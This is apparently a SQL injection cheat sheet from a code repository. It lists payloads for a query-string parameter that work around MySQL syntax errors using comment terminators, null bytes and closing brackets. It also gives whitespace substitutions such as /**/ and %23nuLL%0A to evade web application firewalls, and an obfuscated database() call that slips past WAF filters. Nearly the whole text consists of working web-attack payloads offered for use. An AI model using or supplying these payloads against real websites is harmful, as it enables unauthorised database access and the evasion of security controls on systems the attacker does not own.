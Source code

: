 ## Stabilise the error message
Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error. This usually happens when server doesn't accept ```-- -``` inside the queries. 

```http://domain.com/index.php?id=1' order by 1)--```   
```http://domain.com/index.php?id=1' order by 1))--```  
```http://domain.com/index.php?id=1' order by 1;%00```     
```http://domain.com/index.php?id=1' order by 1));%00```   
```http://domain.com/index.php?id=1' order by 1;%60```    
```http://domain.com/index.php?id=1' order by 1%23```    
```http://domain.com/index.php?id=1' order by 1%60```    
```http://domain.com/index.php?id=1' order by 1%90```   
```http://domain.com/index.php?id=1'%23/* order by 1```  
```http://domain.com/index.php?id=1') order by 1```  
```http://domain.com/index.php?id=1' order by 1") ;%00```  
```http://domain.com/index.php?id=1' order by 1#--+```  
```http://domain.com/index.php?id=1' order by 1'))%23``` 


If MySQL Syntax Error still persists, simply try again the payloads, but this time, without ```-- -```


## Whitespace WAF-based bypass

Whenever the WAF blocks the query to include space/whitespace, you can easy replace with the following payloads:  

```
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+
```

For example, you can replace the whitespaces on the following payload:  
```http://domain.com/index.php?id=1' order by 1-- -```  
with  
```http://domain.com/index.php?id=1'/**/order/**/by/**/1--/**/-```  
or with  
```http://domain.com/index.php?id=1'%23nuLL%0Aorder%23nuLL%0Aby%23nuLL%0A1--%23nuLL%0A-```  
and so on...


## WAF blocks retrieving information from database()

Simply replace ```database()``` with ```database/*badd*//**/()```
